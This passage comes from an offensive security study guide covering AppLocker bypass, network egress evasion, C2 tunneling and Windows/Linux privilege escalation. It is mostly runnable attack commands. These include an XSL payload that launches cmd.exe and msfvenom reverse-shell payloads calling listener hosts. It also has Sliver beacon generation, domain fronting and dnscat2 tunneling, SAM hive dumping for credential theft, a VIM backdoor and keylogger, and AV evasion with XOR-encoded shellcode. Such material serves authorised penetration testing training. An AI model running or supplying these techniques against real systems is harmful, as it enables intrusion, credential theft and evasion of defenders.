xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">
<output method="text"/>
<ms:script implements-prefix="user" language="JScript">
<![CDATA[
var r = new ActiveXObject("WScript.Shell");
r.Run("cmd.exe");
]]>
</ms:script>
</stylesheet>Methodology
-
sudo cp [payload].xsl /var/www/html/ sudo systemctl start apache2 -
wmic process get brief /format:"http://[listener-ip]/[payload].xsl" -
# Generate DotNetToJscript output and embed within the CDATA section of the XSL file # Re-host and retrigger the WMIC command -
# Shortcut target field: C:\Windows\System32\wbem\wmic.exe process get brief /format:"http://[listener-ip]/[payload].xsl" -
sliver > http -L [listener-ip] --lport [listener-port] # or msfconsole -q -x 'use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST [listener-ip]; set LPORT [listener-port]; run'
10.12 Third-Party Scripting Engine Bypass
AppLocker only enforces rules against native Windows executable file types (.exe, .dll, .ps1, .js, .vbs, .bat, .cmd). If a third-party scripting engine like Python, Perl, or Java is installed on the target, it can execute arbitrary code without restriction because AppLocker has no rule category for these runtimes.
VBA macros inside Microsoft Office documents are also exempt — even if the Office document is saved to a non-whitelisted folder, AppLocker cannot restrict execution of embedded macros. This makes Office documents particularly effective in AppLocker-hardened environments.
Methodology
-
where.exe python where.exe python3 where.exe perl where.exe java where.exe ruby -
echo print("AppLocker bypassed") > test.py python test.py -
sudo msfvenom -p python/meterpreter/reverse_tcp LHOST=[listener-ip] LPORT=[listener-port] -o shell.py -
# On attacker: generate Java payload sudo msfvenom -p java/meterpreter/reverse_tcp LHOST=[listener-ip] LPORT=[listener-port] -f jar -o shell.jar # On target: execute (AppLocker does not block .jar files) java -jar shell.jar
10.13 Bypass Summary
Each bypass technique targets a different gap in AppLocker's enforcement model. The table below maps each technique to the rule type it circumvents, the native binary abused, and the tradecraft it enables.
| Technique | AppLocker Rule Bypassed | LOL Binary Used | Enables |
|---|---|---|---|
| Trusted Folder (C:\Windows\Tasks) | Path-based executable/script rules | None (direct copy) | Any EXE, DLL, or script execution |
| DLL via rundll32 | Executable rules (DLL enforcement off) | rundll32.exe | Unmanaged shellcode DLL |
| Alternate Data Streams | Script rules | wscript.exe | Jscript/VBS from trusted file ADS |
| Custom Runspace (C#) | PowerShell CLM | None (custom C# binary) | Unrestricted PowerShell in FullLanguage |
| InstallUtil | Executable rules + CLM | installutil.exe | Arbitrary C# + unrestricted PowerShell |
| Reflective Injection | DLL enforcement rules | installutil.exe | In-memory DLL injection bypassing DLL rules |
| Microsoft.Workflow.Compiler | Executable rules (managed code) | Microsoft.Workflow.Compiler.exe | Arbitrary C# compiled and run in memory |
| MSHTA (.hta) | Script rules | mshta.exe | Jscript / DotNetToJscript payloads |
| XSL Transform (WMIC) | Script rules | wmic.exe | Jscript / DotNetToJscript payloads |
10.13.1 Sliver Inline Execution — Application Whitelisting Quick Reference
When operating inside an AppLocker-enforced environment, Sliver's execute-assembly -i flag and inline-execute-assembly command run .NET assemblies within the current implant process. This avoids spawning a new process that AppLocker could inspect, making it the preferred method for running C# tools under whitelisting restrictions.
| Sliver Command | Description | When to Use |
|---|---|---|
execute-assembly -i [path] [args] | Run C# assembly inline within current process | AppLocker blocks new process creation |
inline-execute-assembly [path] [args] | Alias for inline assembly execution | Same as above; alternative syntax |
sharpsh -i -t [n] -- -u [url] -c [cmd] | Run PowerShell script inline via SharpSh | CLM active; need FullLanguage execution |
execute-assembly -i Stracciatella.exe -c [cmd] | Run PowerShell commands bypassing CLM+AMSI | Both CLM and AMSI active |
Methodology
-
$ExecutionContext.SessionState.LanguageMode # ConstrainedLanguage = AppLocker/WDAC script rules active -
sliver ([session]) > sharpup -i -- audit sliver ([session]) > execute-assembly -i /home/kali/tools/bins/csharp-files/Seatbelt.exe -group=all sliver ([session]) > inline-execute-assembly /home/kali/tools/bins/csharp-files/SharpUp.exe audit -
sliver ([session]) > sharpsh -i -t 40 -- '-u http://[listener-ip]/PowerUp.ps1 -c "Invoke-AllChecks"' sliver ([session]) > sharpsh -i -t 40 -- '-u http://[listener-ip]/HostRecon.ps1 -c "Invoke-HostRecon"' -
sliver ([session]) > execute-assembly -i /home/kali/tools/bins/csharp-files/Stracciatella.exe -c "[PowerShell command]"
11. Bypassing Network Filters
Enterprise networks deploy layered egress defenses that inspect, log, and block outbound traffic before it reaches the Internet. As penetration testers, we must understand each defensive layer, identify which are deployed in a target environment, and apply the appropriate bypass technique for each. The goal is rarely complete invisibility — it is to remain below the detection threshold by generating traffic that appears legitimate.
| Defensive Layer | Mechanism | Bypass Strategy |
|---|---|---|
| DNS Filter | Domain blocklists, reputation scoring, categorization | Age domain, pre-categorize, use CDN subdomains |
| Web Proxy | URL filtering, User-Agent inspection, HTTP logging | Proxy-aware payload, correct User-Agent, clean domain |
| IDS/IPS | Deep packet inspection, signature matching | Modify traffic patterns, custom TLS certificates |
| Full Packet Capture | Passive tap, forensic analysis, metadata logging | Low profile, normalized traffic, geo-aware C2 |
| HTTPS Inspection | TLS MITM decryption/re-encryption inline | TLS certificate pinning, safe domain categorization |
| Domain Fronting | (Bypass technique) CDN SNI/Host header mismatch | Route C2 traffic through trusted CDN endpoints |
| DNS Tunneling | (Bypass technique) C2 encapsulated in DNS packets | dnscat2 with authoritative NS delegation |
11.1 DNS Filters
DNS filters compare requested domains against blocklists of known-malicious names and, in advanced implementations, use heuristics and reputation scoring aggregated from providers like OpenDNS (Cisco Umbrella) and VirusTotal. When a domain is blocked, the filter either drops the request or returns a sinkhole IP that redirects the client to a block page or a monitoring device.
Domain categorization is equally important. Filters classify domains into categories (News/Media, Webmail, Phishing) and enterprise policies commonly block entire categories. A newly registered domain may also be flagged as a "Newly Seen Domain," which carries a poor reputation score regardless of actual content.
| Filter Behavior | Description |
|---|---|
| Blocklist match | Domain on known-malicious list — request dropped or sinkhol'd |
| Sinkhole IP | Returns fake IP (e.g., 146.112.61.108) redirecting to block page |
| Reputation scoring | IPVoid / VirusTotal aggregate multiple sources into pass/fail verdict |
| Category block | Webmail, gambling, newly-seen domains blocked by policy |
| NLP heuristics | Random-character or typo-squatted names flagged by pattern analysis |
Methodology
-
nslookup [domain] 208.67.222.222 -
# Manual — visit https://www.ipvoid.com/dns-reputation/ and https://www.virustotal.com # Check domain: [domain] -
# Visit https://community.opendns.com/domaintagging/search/ # Search for: [domain] # Submit category vote if uncategorized or miscategorized -
# Age domain before use — newly registered domains (<1 week) scored poorly # Host legitimate-looking HTML content on [domain] via Apache/Nginx # Generate synthetic traffic to build DNS query history -
nslookup [domain] 8.8.8.8 # Verify returned IP at https://www.ipvoid.com/ip-blacklist-check/ -
# Good: updateservice-cdn.com, analytics-tracker.net # Avoid: x7k2m9.com, 192abc.net # Typo-squatting example: examp1e.com vs example.com (use with care)
11.2 Web Proxies
Web proxy servers terminate the client connection, inspect the full HTTP/HTTPS request, and initiate a new connection to the destination on behalf of the client. Acting as a MITM, they can inspect and modify headers, filter URLs by category or blocklist, and log all request metadata. Even if traffic is permitted, fields such as Host, User-Agent, and Referer are almost certainly logged and may be subject to SIEM review.
To evade web proxy detection, our payload must be proxy-aware (detecting and honoring local proxy settings), and our C2 traffic must conform to HTTP protocol standards. Using cloud-hosted or CDN-assigned domains (e.g., azurewebsites.net, cloudfront.net) can help, as these domains are often auto-allowed by policy.
| Proxy Defense | What It Checks | Bypass |
|---|---|---|
| URL/Category filter | Full URL path, domain category | Clean domain, safe category pre-registration |
| User-Agent filtering | Browser type and OS from UA string | Match UA string observed in target environment |
| Protocol conformance | HTTP standard deviation (extra spaces, malformed headers) | Use framework HTTP APIs (WinINet HttpOpenRequestA) |
| IP reputation | Destination IP flagged as malicious | Use CDN or cloud domains with clean shared IPs |
| SIEM log correlation | Unusual timing, frequency, or URI patterns | Beacon jitter, realistic URIs, vary HTTP methods |
Methodology
-
# Symantec: https://sitereview.bluecoat.com/ # Cyren: https://www.cyren.com/security-center/url-category-check # Check: [domain] -
# Capture HTTP traffic from internal foothold tcpdump -i [interface] -A -s 0 'tcp port 80' | grep -i 'user-agent' # Reference: https://www.useragentstring.com/ -
# Generate Sliver implant with HTTP/HTTPS listener sliver > profiles new --http [listener-ip]:[listener-port] --format shellcode osep sliver > http -L [listener-ip] --lport [listener-port] # Generate beacon with evasion sliver > generate beacon --http [listener-ip]:[listener-port] --name [implant-name] --os windows --seconds 5 --jitter 2 --evasion -
# Windows — confirm proxy settings detected automatically via WinINet # Test connectivity through proxy from foothold: powershell -c "(New-Object System.Net.WebClient).DownloadString('http://[domain]')"
11.3 IDS and IPS Sensors
Intrusion Detection Systems (IDS) passively copy traffic for analysis, while Intrusion Prevention Systems (IPS) sit inline and can actively drop traffic. Both perform deep packet inspection, reassembling fragmented IP packets and matching application-layer content against known signatures. Because signatures must be very specifically tuned to avoid false positives, small changes to traffic patterns can invalidate them entirely.
A classic example is the Didier Stevens Meterpreter Snort rule, which matched a hardcoded "RECV" string in early HTTP POST URIs. Another is the Fox-IT detection of an extraneous space in a C2 framework's HTTP protocol header. These examples demonstrate that minor, identifiable patterns are the anchor points for IDS rules — and therefore the targets for evasion.
| IDS/IPS Concept | Detail |
|---|---|
| Signature-based detection | Matches specific byte patterns or strings in application-layer data |
| IP fragmentation reassembly | Device must reconstruct fragmented packets before inspection |
| HIPS (Host-based IPS) | Integrated into endpoint suite; has full access to host traffic (e.g., Norton 360) |
| TLS certificate fingerprinting | Default self-signed cert fields in frameworks can be uniquely fingerprinted |
| Protocol deviation detection | Extraneous whitespace or non-standard headers expose tool identity |
11.3.1 Methodology: Bypassing HIPS with Custom TLS Certificates
-
openssl req -new -x509 -nodes -out cert.crt -keyout priv.key # Fill in: Country=US, State=[state], City=[city], Org=[org-name], CN=[domain] cat priv.key cert.crt > [org-name].pem -
# Edit /etc/ssl/openssl.cnf # Change: # CipherString=DEFAULT@SECLEVEL=2 # To: # CipherString=DEFAULT -
sudo apt install certbot sudo certbot certonly --standalone -d [domain] # Certificate: /etc/letsencrypt/live/[domain]/fullchain.pem # Key: /etc/letsencrypt/live/[domain]/privkey.pem cat /etc/letsencrypt/live/[domain]/privkey.pem \ /etc/letsencrypt/live/[domain]/fullchain.pem > [domain].pem -
# From target — confirm connection is established and not blocked curl -k https://[listener-ip]:[listener-port]/
11.4 Full Packet Capture Devices
Full packet capture devices (e.g., RSA NetWitness, Arkime/Moloch) sit passively on a network tap, copying all traffic for later forensic analysis. They cannot block traffic inline, but can generate rich, searchable metadata that incident responders use to investigate suspicious connections. Alerts generated from packet capture analysis may lead to manual intervention and traffic blocking.
The evasion strategy for full packet capture is to maintain a low profile and generate traffic that blends into the baseline. Key considerations include geolocation of the C2 server (traffic to geographically unusual destinations raises suspicion), realistic timing patterns, and conformance to expected protocols.
| Consideration | Recommendation |
|---|---|
| C2 geolocation | Host C2 in a region consistent with the target's expected traffic (e.g., US-based for US organizations) |
| Traffic timing | Use beacon jitter to avoid predictable intervals; mirror business-hours traffic patterns |
| Protocol normalization | Use legitimate HTTP APIs (WinINet) rather than raw TCP; conform fully to HTTP standards |
| Tool traffic testing | Before deployment, capture tool traffic in a lab with Wireshark to identify anomalous patterns |
| Volume | Minimize unnecessary callbacks; avoid large data transfers that spike baseline |
Methodology
-
sudo wireshark & # Capture on [interface], filter: not arp and not dns # Look for anomalous URIs, timing patterns, or non-standard headers -
# Check IP geolocation curl -s https://ipapi.co/[listener-ip]/json/ | python3 -m json.tool # Confirm: country, region match expected operational area -
sliver > generate beacon --http [listener-ip]:[listener-port] \ --name [implant-name] --os windows \ --seconds 30 --jitter 15 --evasion
11.5 HTTPS Inspection
HTTPS inspection devices perform inline TLS decryption and re-encryption, acting as a MITM between the internal client and external server. The device presents its own certificate (typically signed by the organization's internal CA, which is pre-trusted on managed endpoints) to the client while establishing a separate TLS session to the actual server. This allows the device to perform full deep packet inspection on otherwise encrypted traffic.
There is no straightforward way to bypass HTTPS inspection. The primary strategy is to keep a low profile so the decrypted traffic does not trigger inspection rules. TLS certificate pinning can also be used to detect inspection: the implant verifies the certificate hash on connection, and if the hash does not match the expected value (because the inspection device substituted its own cert), the implant terminates itself.
| Approach | Effect |
|---|---|
| TLS certificate pinning | Implant terminates if presented cert does not match pinned hash — avoids exposing traffic to inspectors |
| Domain categorization (banking/financial) | Some categories are exempted from inspection for privacy/legal reasons |
| Legitimate-looking HTTP traffic | Even if decrypted, traffic that mirrors normal browser behavior avoids detection rules |
| CDN-hosted C2 | High-volume CDN domains may be excluded from inspection due to performance cost |
Methodology
-
# From foothold — check certificate issuer powershell -c "[Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}; (Invoke-WebRequest https://[external-domain]).RawContent" # Or use openssl from Linux foothold: openssl s_client -connect [external-domain]:443 -servername [external-domain] 2>/dev/null | openssl x509 -noout -issuer -subject -
openssl req -new -x509 -nodes -out [domain].crt -keyout [domain].key cat [domain].key [domain].crt > [domain].pem # Host Sliver HTTPS listener with the custom certificate sliver > https -L [listener-ip] --lport [listener-port] \ --cert [domain].pem --key [domain].key -
# Populate C2 domain with financial-themed HTML content # Submit categorization at: # https://community.opendns.com/domaintagging/ # https://sitereview.bluecoat.com/
11.6 Domain Fronting
Domain fronting exploits the architectural separation between TLS (handled at the network layer using the SNI field) and HTTP (handled at the application layer using the Host header). Because large Content Delivery Networks (CDNs) route requests based on the HTTP Host header, it is possible to initiate a TLS session to a trusted CDN domain (visible to network filters via DNS and SNI) while routing the actual HTTP request to a different, potentially blocked backend domain (specified in the Host header, encrypted inside TLS).
The result is that network monitoring devices only see a connection to the legitimate CDN domain. The true C2 destination is hidden inside the encrypted TLS session. Microsoft Azure CDN (using the Standard Verizon tier) has historically supported domain fronting by proxying requests based on Host header values across its shared azureedge.net infrastructure.
| Component | Role in Domain Fronting |
|---|---|
| SNI field (TLS Client Hello) | Specifies the trusted, allowed domain — visible to IDS/proxy before TLS is established |
| HTTP Host header | Specifies the actual backend destination — encrypted inside TLS, invisible to non-inspection devices |
| CDN endpoint (azureedge.net) | Routes the request to the appropriate backend based on Host header; shared IP serves multiple domains |
| Frontable domain | Trusted domain hosted on same CDN (e.g., do.skype.com) used as the visible connection target |
| C2 CDN endpoint | CDN endpoint proxying requests to the actual C2 server (e.g., offensive-security.azureedge.net) |
11.6.1 Methodology: Azure CDN Domain Fronting
-
# Azure CDN endpoint configuration: # Name: [cdn-endpoint-name] # Origin type: Custom origin # Origin hostname: [c2-domain] (e.g., your VPS domain) # Endpoint domain: [cdn-endpoint-name].azureedge.net # Disable caching: Caching rules -> Bypass cache # Disable query string caching: Bypass caching for query strings -
git clone https://github.com/rvrsh3ll/FindFrontableDomains cd FindFrontableDomains && sudo ./setup.sh python3 FindFrontableDomains.py --domain skype.com # Look for: "Azure Frontable domain found: [subdomain] [azureedge-cname]" -
# HTTP test curl --header "Host: [cdn-endpoint-name].azureedge.net" http://[frontable-domain] # HTTPS test curl -k --header "Host: [cdn-endpoint-name].azureedge.net" https://[frontable-domain] # Expected: HTML response from your C2 server origin -
# For stageless HTTPS implant with domain fronting: sliver > generate --http [frontable-domain] --name [implant-name] --os windows --evasion # The Sliver HTTP profile should use the CDN endpoint as the host header. # Start HTTPS listener on the C2 VPS: sliver > https -L 0.0.0.0 --lport 443 -
sudo wireshark & # Filter: dns or tls # Confirm: # DNS A/CNAME resolves [frontable-domain] # TLS Client Hello SNI = [frontable-domain] # HTTP Host header = [cdn-endpoint-name].azureedge.net (encrypted in TLS)
11.7 DNS Tunneling with dnscat2
DNS tunneling encapsulates arbitrary data inside DNS query and response packets, allowing bidirectional communication through environments that permit DNS traffic but block all other outbound protocols. Because the client cannot receive unsolicited DNS responses, tunneling tools use a polling model: the client continuously queries the authoritative server for new commands and submits command output via new DNS lookups. Data is typically hex-encoded and split across multiple queries when it exceeds the per-label limit of 63 characters.
dnscat2 is a standard tool for DNS tunneling. It supports TXT, CNAME, and MX record types and can tunnel arbitrary TCP/IP traffic in addition to providing a built-in command shell. To operate, the attacker's DNS server must be registered as the authoritative nameserver (NS record) for a domain they control, so that DNS requests for subdomains of that domain are forwarded to the dnscat2 server.
| DNS Field | Tunneling Use | Limit |
|---|---|---|
| Query name (client to server) | Hex-encoded data as subdomains | 63 chars per label, 253 total FQDN |
| TXT record (server to client) | Command output or new commands | Up to 64 KB per record |
| A record (server to client) | Four bytes of data (limited) | 4 bytes (IPv4) |
| CNAME / MX records | Alternative response encoding | Varies |
Methodology
-
# On the DNS server (Ubuntu edge machine) — append to /etc/dnsmasq.conf: server=/[tunnel-domain]/[listener-ip] # Restart dnsmasq sudo systemctl restart dnsmasq -
sudo apt install dnscat2 # Start server for the tunnel domain dnscat2-server [tunnel-domain] # Note the --secret value from the output for client authentication -
# On Windows target (transfer dnscat2-v0.07-client-win32.exe first): dnscat2-v0.07-client-win32.exe [tunnel-domain] # Or specify DNS server directly: dnscat2-v0.07-client-win32.exe --dns server=[dns-server-ip],port=53 --secret=[secret] -
# On dnscat2 server — confirm session established and verify auth string: dnscat2> session -i 1 # Confirm: ">> [auth-string]" matches what the client displays -
command (client) 1> shell command (client) 1> session -i 2 # Interactive shell is now available: cmd.exe (client) 2> whoami -
# Forward attacker local port 3389 to target RDP port: command (client) 1> listen 127.0.0.1:3389 [target-ip]:3389 # RDP to the target via the tunnel from attacker machine: xfreerdp /u:[user] /p:[password] /v:127.0.0.1:3389 /cert:ignore
11.8 Sliver Tunneling
Sliver C2 provides built-in tunneling capabilities that enable traffic pivoting through compromised hosts without requiring additional tooling. These capabilities include port forwarding (accessing internal services via local ports), reverse port forwarding (exposing attacker services through the implant), SOCKS5 proxy (full network pivoting through the implant), and Ligolo-ng integration (transparent IP routing to internal subnets).
All tunneling commands are executed within an interactive Sliver session. The correct tunneling method depends on the network topology: port forwarding is appropriate for accessing specific services, SOCKS5 enables general-purpose pivoting via proxychains, and Ligolo is the most powerful option for full subnet-level access.
| Tunneling Method | Use Case | Direction |
|---|---|---|
| portfwd | Access a specific internal service (e.g., RDP) via a local port on the attacker machine | Attacker local port → internal target port |
| rportfwd | Expose an attacker-side port through the implant (e.g., make attacker's HTTP server accessible to internal hosts) | Implant host port → attacker local port |
| socks5 | Full SOCKS5 proxy; route any tool through the implant via proxychains | Proxychains → implant → internal network |
| Ligolo-ng | Transparent IP routing; access internal subnets as if directly connected, no proxychains needed | Virtual TUN interface → internal subnet |
11.8.1 Methodology: Port Forwarding (portfwd)
-
sliver ([session-name]) > portfwd add -b 127.0.0.1:[local-port] -r [target-ip]:[target-port] # Example — access internal RDP: sliver ([session-name]) > portfwd add -b 127.0.0.1:33890 -r [target-ip]:3389 -
xfreerdp /u:[user] /p:[password] /v:127.0.0.1:33890 /cert:ignore /dynamic-resolution
11.8.2 Methodology: Reverse Port Forwarding (rportfwd)
-
sliver ([session-name]) > rportfwd add -b 0.0.0.0:[remote-port] -r 0.0.0.0:[local-port] # Example — expose attacker's port 7999 via implant host: sliver ([session-name]) > rportfwd add -b 0.0.0.0:7999 -r 0.0.0.0:7999 -
# From another internal host — connect to implant's IP on the remote port: curl http://[implant-host-ip]:[remote-port]/[payload]
11.8.3 Methodology: SOCKS5 Proxy
-
sliver ([session-name]) > socks5 start # Default listener: 127.0.0.1:1081 -
# Edit /etc/proxychains4.conf # Ensure the [ProxyList] section contains: [ProxyList] socks5 127.0.0.1 1081 -
sudo proxychains4 -q nxc smb [internal-subnet]/24 sudo proxychains4 -q nmap -sT -Pn -p 445,3389,5985 [internal-ip] sudo proxychains4 -q xfreerdp /u:[user] /p:[password] /v:[internal-ip] /cert:ignore
11.8.4 Methodology: Ligolo-ng Subnet Routing
-
sliver ([session-name]) > upload /home/kali/tools/ligolo-ng/agent.exe c:/windows/tasks/agent.exe sliver ([session-name]) > ls c:/windows/tasks/agent.exe -
sudo /home/kali/tools/ligolo-ng/proxy -selfcert -laddr [listener-ip]:4444 -
# In the Ligolo proxy console: interface_delete --name [interface-name] interface_create --name [interface-name] interface_route_add --name [interface-name] --route [internal-subnet]/24 # For additional subnets: interface_create --name [interface-name-2] interface_route_add --name [interface-name-2] --route [internal-ip-2]/32 -
# Via interactive shell: sliver ([session-name]) > shell C:\Windows\tasks\agent.exe -connect [listener-ip]:4444 -ignore-cert -retry # Or via Sliver execute (no output wait): sliver ([session-name]) > execute C:\\Windows\\tasks\\agent.exe -connect [listener-ip]:4444 -ignore-cert -retry -
# In Ligolo proxy console after agent connects: session # Select the session number tunnel_start --tun [interface-name] -
# In Ligolo proxy console — forward pivot-host port to attacker service: # machine05 -> jump01:[pivot-port] -> attacker:[attacker-port] listener_add --addr [pivot-host-ip]:[pivot-port] --to 0.0.0.0:[attacker-port] # Generate Sliver beacon pointing at the pivot host: sliver > generate beacon --http [pivot-host-ip]:[pivot-port] \ --name [beacon-name] --os windows --seconds 5 --jitter 0 --evasion # Deliver and execute beacon on the isolated machine via existing access -
nmap -sT -Pn -p 445,3389,5985,80,443 [internal-ip] nxc smb [internal-subnet]/24 xfreerdp /u:[user] /p:[password] /v:[internal-ip] /cert:ignore /dynamic-resolution
12. Windows Privilege Escalation
Windows privilege escalation is an enumeration-first process. Confirm identity, groups, privileges, integrity level, OS build, installed applications, services, scheduled tasks, and stored credentials before reaching for exploit code. Misconfigurations are the normal path; kernel exploits are the fallback after patch level and exploit reliability are confirmed.
12.1 Enumeration
Start by building a local map of the host: who you are, what privileges are assigned, what is running, what can be modified, and what credentials or admin sessions already exist.
Methodology
-
whoami whoami /all whoami /priv net user [user] net localgroup administrators -
systeminfo wmic qfe get HotFixID,InstalledOn hostname ipconfig /all route print netstat -ano tasklist /svc query user -
wmic product get name,version,vendor Get-ChildItem "C:\Program Files","C:\Program Files (x86)" -ErrorAction SilentlyContinue Get-ChildItem C:\ -Force -
.\winPEASx64.exe quiet cmd fast Import-Module .\PowerUp.ps1; Invoke-AllChecks .\Seatbelt.exe -group=all
12.2 Service Misconfigurations
Services are high-value because they often run as LocalSystem or a privileged service account. Common service escalation paths include service binary hijacking, weak service permissions, and unquoted service paths.
| Vector | Condition | Abuse |
|---|---|---|
| Service binary hijack | Writable service executable or directory | Replace the binary or plant a same-named payload |
| Weak service permissions | User can change service configuration | Set binPath to a payload or command |
| Unquoted service path | Path contains spaces, is unquoted, and a prefix directory is writable | Place an executable in the path Windows checks first |
Methodology
-
Get-CimInstance Win32_Service | Select Name,State,StartMode,StartName,PathName wmic service get name,pathname,startmode,startname | findstr /i /v "C:\Windows" -
sc.exe qc [service] sc.exe sdshow [service] icacls "C:\Path\To\Service\service.exe" accesschk.exe -uwcqv "Users" * accesschk.exe -uwcqv "Authenticated Users" * -
sc.exe config [service] binPath= "C:\Windows\Temp\payload.exe" sc.exe stop [service] sc.exe start [service] -
wmic service get name,pathname,startmode | findstr /i "auto" | findstr /i /v "C:\Windows" | findstr /i /v '"' Get-UnquotedService Write-ServiceBinary -Name [service] -Path "C:\Program Files\[WritablePrefix].exe" Restart-Service [service]
12.3 Scheduled Tasks
Scheduled tasks become escalation paths when a privileged task executes a script or binary that a low-privileged user can modify. Treat each task as a service-like execution primitive with a trigger, action, run-as identity, and file permission boundary.
Methodology
-
schtasks /query /fo LIST /v Get-ScheduledTask | Select TaskName,TaskPath,State,Actions,Principal -
icacls "C:\Scripts\backup.ps1" icacls "C:\Program Files\App" echo C:\Windows\Temp\payload.exe >> "C:\Scripts\backup.ps1" -
schtasks /run /tn "\[TaskPath]\[TaskName]" Get-Date
12.4 Token Impersonation (Potatoes)
Service accounts such as IIS application pools, MSSQL services, and other service contexts commonly hold SeImpersonatePrivilege. This class is commonly abused with potato-style named-pipe impersonation, where a privileged authentication is coerced to a local listener and the resulting token is used to execute a command as SYSTEM.
Methodology
-
whoami /priv # Look for SeImpersonatePrivilege or SeAssignPrimaryTokenPrivilege -
.\SigmaPotato.exe "whoami" .\SigmaPotato.exe "net user [user] [password] /add" .\SigmaPotato.exe "net localgroup Administrators [user] /add" -
.\SigmaPotato.exe "C:\Windows\Temp\payload.exe" whoami whoami /groups
12.5 Stored Credentials
Credential reuse often beats exploit development. Search user profiles, PowerShell history, configuration files, web roots, application directories, saved Windows credentials, and registry locations for passwords, hashes, connection strings, and API keys.
Methodology
-
Get-Content (Get-PSReadlineOption).HistorySavePath type "%APPDATA%\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt" findstr /si password *.txt *.ini *.config *.xml findstr /si password C:\Windows\Panther\unattend*.xml C:\Windows\Panther\unattended*.xml -
cmdkey /list netsh wlan show profiles netsh wlan show profile name="[ssid]" key=clear dir /s /b *web.config* *connection* *kdbx* *vnc* 2>nul -
reg save HKLM\SAM C:\Windows\Temp\SAM reg save HKLM\SYSTEM C:\Windows\Temp\SYSTEM reg save HKLM\SECURITY C:\Windows\Temp\SECURITYimpacket-secretsdump -sam SAM -system SYSTEM -security SECURITY LOCAL
12.6 UAC, Patch Level, and Kernel Fallback
User Account Control limits administrator tokens to medium integrity until elevation is approved or bypassed. Kernel exploits and UAC bypasses are environment-dependent, noisy, and version-sensitive, so use them only after local misconfigurations and credential paths are exhausted.
Methodology
-
whoami /groups whoami /all reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -
systeminfo > systeminfo.txt wmic qfe get HotFixID,InstalledOnwesng --update wesng systeminfo.txt --impact "Elevation of Privilege" -
[Environment]::Is64BitOperatingSystem Get-ComputerInfo | Select WindowsProductName,WindowsVersion,OsBuildNumber
13. Linux Privilege Escalation
Linux powers the majority of servers, cloud environments, and IoT devices worldwide. Post-exploitation on Linux goes beyond basic enumeration — configuration files, text editors, and shared libraries each present distinct attack vectors for persistence, privilege escalation, and AV evasion.
13.1 User Configuration Files
Linux applications store user-specific configuration in "dotfiles" — files prepended with a period — inside the user's home directory. These files are hidden from basic directory listings and are typically writable only by the owning user or root. Modifying them allows an attacker with an existing foothold to trigger code on the next user session.
| File | Trigger | Use Case |
|---|---|---|
~/.bash_profile | Initial login (SSH, console) | Set env vars, load backdoor on login |
~/.bashrc | New shell or terminal window from existing session | Persistent environment modifications, aliases |
~/.vimrc | VIM startup | Run commands, source scripts, define autocommands |
~/.vim/plugin/*.vim | VIM startup (auto-loaded plugin directory) | Stealthier config injection than .vimrc |
Methodology
-
echo "touch /tmp/bashtest.txt" >> ~/.bashrc -
/bin/bash
13.2 VIM Config Simple Backdoor
VIM's .vimrc configuration file executes VIM scripting commands on startup. Since VIM has access to shell environment variables and can invoke shell commands via the ! prefix, it provides a reliable backdoor vector. The :silent command suppresses any debug output that would otherwise alert the user.
Rather than placing commands directly in .vimrc, a more covert approach sources an external shell script. The VIM plugin directory (~/.vim/plugin/) is even stealthier — any .vim file placed there is automatically loaded on startup without needing a reference in .vimrc.
| Technique | VIM Config Syntax | Notes |
|---|---|---|
| Run shell command directly | :silent !touch /tmp/test.txt | Blocked in restricted VIM (-Z mode) |
| Source external shell script | :silent !source ~/.vimrunscript | Slight obfuscation; script can be anywhere on disk |
| Import secondary VIM config | :source /path/to/file.vim | Loads another .vim file; colon prefix, not bang |
| Plugin directory auto-load | Drop settings.vim in ~/.vim/plugin/ | No reference in .vimrc needed; most stealthy |
Methodology
-
echo ':silent !source ~/.vimrunscript' >> ~/.vimrc -
cat > ~/.vimrunscript << 'EOF' #!/bin/bash touch /tmp/hacksrcout.txt EOF chmod +x ~/.vimrunscript -
mkdir -p ~/.vim/plugin echo ':silent !source ~/.vimrunscript' > ~/.vim/plugin/settings.vim -
sudo -l -
sudo vim /opt/important.conf # Inside VIM: :shell -
echo 'alias sudo="sudo -E"' >> ~/.bashrc source ~/.bashrc
13.3 VIM Config Keylogger
VIM's autocommand feature (:autocmd) binds actions to editor events, enabling a keylogger that works even in restricted VIM environments where shell commands are blocked. The BufWritePost event fires after a buffer is saved, which avoids interfering with the user's save operations while silently capturing file contents.
Combining autocommands with VIM's environment variable access allows the keylogger to activate conditionally — for example, logging only when VIM runs as root. On distributions where sudo preserves the user's VIM environment (Ubuntu, Red Hat), the plugin will trigger automatically when the user invokes sudo vim.
| Autocommand Event | Trigger Condition | Attacker Use |
|---|---|---|
VimEnter | VIM starts | Setup tasks, initial payload |
VimLeave | VIM exits | Cleanup or final data exfil |
BufWritePost | After buffer written to file | Log file contents without blocking save |
FileAppendPre | Before appending to a file | Intercept file append operations |
Methodology
-
mkdir -p ~/.vim/plugin cat > ~/.vim/plugin/settings.vim << 'EOF' :autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt EOF -
cat > ~/.vim/plugin/settings.vim << 'EOF' :if $USER == "root" :autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt :endif EOF -
rm -f /tmp/hackedfromvim.txt vi /tmp/testfile.txt # Edit and save — no log created sudo vi /tmp/testfile.txt # Edit and save — log created ls -al /tmp/hackedfromvim.txt
13.4 Bypassing AV
Linux antivirus solutions are generally less sophisticated than their Windows counterparts. Kaspersky Endpoint Security for Linux uses real-time file scanning and manual scan capabilities via the kesl-control utility. Standard Meterpreter ELF payloads are detected, but wrapping shellcode in a C program is sufficient to evade static analysis.
Further obfuscation using XOR encoding of the shellcode buffer eliminates the remaining detections across multi-scanner services. Because the XOR operation is symmetric, the decoder in the wrapper simply applies the same key to reverse the encoding at runtime before executing.
| Payload Type | Kaspersky Detection | Notes |
|---|---|---|
| 32-bit Meterpreter ELF (raw) | Detected | Caught with or without x86/shikata_ga_nai encoder |
| 64-bit Meterpreter ELF (raw) | Detected | Flagged as HEUR:Backdoor.Linux.Agent.ar |
| 64-bit ELF with x64/zutto_dekiru encoder | Not detected | Encoder-based evasion |
| Shellcode in C wrapper (unobfuscated) | Not detected | Bypasses Kaspersky; 2/26 on Antiscan.me |
| Shellcode in C wrapper (XOR encoded) | Not detected | Bypasses all 26 scanners on Antiscan.me |
Methodology
-
